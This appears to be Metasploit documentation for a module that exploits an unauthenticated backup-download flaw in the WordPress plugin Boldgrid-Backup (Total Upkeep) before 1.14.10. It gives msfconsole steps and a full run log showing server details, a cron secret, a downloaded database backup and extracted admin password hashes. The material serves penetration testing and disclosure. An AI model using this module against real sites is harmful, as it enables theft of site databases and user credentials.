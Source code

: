 ## Vulnerable Application

This module exploits an unauthenticated database backup vulnerability in WordPress plugin
'Boldgrid-Backup' also known as 'Total Upkeep' version < 1.14.10.

Exploitation happens in a few steps:

1. First, `env-info.php` is read to get server information.
1. Next, `restore-info.json` is read to retrieve the last backup file.
1. That backup is then downloaded, and any sql files will be parsed looking for the `wp_users` `INSERT` statement to grab user creds.

A vulnerable version can be downloaded from here:
[Boldgrid Backup (Total Upkeep)](https://downloads.wordpress.org/plugin/boldgrid-backup.1.14.9.zip)

A free account will need to be registered at Boldgrid's site, and a serial key generated and applied.
Once the key is applied, click "Backup Site Now", or create a backup through other mechanisms in the
interface.

## Verification Steps

1. Install the plugin and create a backup
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_tota_upkeep_downloader`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get an archive backup.

## Options

## Scenarios

### Boldgrid-Backup (Total Upkeep) 1.14.9 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (total_upkeep.rb)> use auxiliary/scanner/http/wp_total_upkeep_downloader
resource (total_upkeep.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (total_upkeep.rb)> run
[+] 1.1.1.1 - Vulnerable version detected
[*] 1.1.1.1 - Obtaining Server Info
[+] 1.1.1.1 -
  gateway_interface: CGI/1.1
  http_host: 1.1.1.1
  php_sapi_name: apache2handler
  php_uname: Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
  php_version: 7.4.3
  server_addr: 1.1.1.1
  server_name: 1.1.1.1
  server_protocol: HTTP/1.1
  server_software: Apache/2.4.41 (Ubuntu)
  uid: 33
  username: www-data
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._165408.txt
[*] 1.1.1.1 - Obtaining Backup List from Cron
200
[+] 1.1.1.1 -
  ABSPATH: /var/www/wordpress/
  archive_key: 0
  cron_secret: ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd
  filepath: /var/www/wordpress/wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
  siteurl: http://1.1.1.1
  site_title: localhost
  restore_cmd: php -d register_argc_argv="1" -qf "/var/www/wordpress/wp-content/plugins/boldgrid-backup/boldgrid-backup-cron.php" mode=restore siteurl=http%3A%2F%2F1.1.1.1 id=ec5c393c secret=ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd archive_key=0 archive_filename=boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip site_title=localhost
  timestamp: 1609362824
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._983176.txt
[*] 1.1.1.1 attempting download of wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
[+] 1.1.1.1 - Database backup (22372663 bytes) saved in: /home/h00die/.msf4/loot/20201230163042_default_1.1.1.1_boldgridbackup._100789.zip
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test001.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test002.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test005.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test006.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test008.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test009.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test010.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test011.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test012.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wordpress_db.20201230-211322.sql
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] 1.1.1.1 - finished processing backup zip
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_total_upkeep_downloader) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      1.1.1.1           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      1.1.1.1           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      1.1.1.1           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
